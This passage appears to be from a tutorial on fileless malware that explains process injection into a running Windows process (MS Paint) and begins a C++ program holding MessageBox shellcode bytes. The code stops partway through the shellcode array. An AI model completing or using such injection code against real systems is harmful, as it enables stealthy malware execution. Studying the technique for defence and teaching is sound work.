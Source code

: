 
We can also check and match the new memory allocated address from the memmory map in Process Hacker tool which is same as the memory address that shows in MS Visual Studio output.

Self injection memory address matches with the memory address output in MS Visual Studio.
![Shell Inj](assets/img/filelessmal/sefinjsamememadd.png)


# Process Injection technique

It's a type of file less attack which is almost similar to the self injection but the difference is that we inject our malicious code or a shellcode into any running process of the program in the OS.


# Steps of Process Injection attack using C++ on MS Paint application process in Windows OS

Process Injection attack using the same steps similar to the Self injection attack, but there is an additional step first to get the handle
of the process then we perfrom the same 3 steps (Allocation, Write, and Execute) the Shellcode. process handle is like a door from which we get into the memory space of the process in this example we get the handle of th MS Paint process and then perform the similar Self Injection attack steps.

We have to include the Windows.h header file into our C++ code so that we can use all of the API's for Windows OS, then we use a shellcode (x86) for the MessageBox into the main function (we can create any shellcode in Metapreter make sure that we use -c flag for C programming language).

```c++
#include <Windows.h>  //use Windows.h header to use Windows API's
#include <tlhelp32.h> //use to access the defination for the Windows.h header
#include <stdio.h>

int main(int argc, char** argv) {
    // Define MessageBox shellcode (x64)  which is created in Metapreter
    unsigned char shellcode[] =
        "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
        "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
        "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
        "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
        "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
        "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
        "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
        "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
```
